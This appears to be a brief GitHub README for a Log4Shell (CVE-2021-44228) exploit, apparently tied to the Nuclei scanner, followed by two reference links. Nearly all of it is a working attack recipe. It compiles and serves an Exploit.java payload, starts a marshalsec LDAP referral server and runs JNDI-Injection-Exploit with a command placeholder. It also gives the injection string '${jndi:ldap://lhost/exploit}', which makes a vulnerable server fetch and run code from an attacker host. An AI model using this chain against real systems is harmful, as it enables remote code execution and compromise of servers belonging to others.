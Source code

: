 # Log4jNuclei
# CVE-2021-44228
Log4j for nuclei



# Exploit

```
javac Exploit.java
python3 -m http.server 80
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit

insert log ${jndi:ldap://lhost/exploit}
///////

java -jar exploit/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'here_command' -A 0.0.0.0

```

# Reference

https://cloud.tencent.com/developer/article/1653754
https://www.freebuf.com/vuls/208339.html
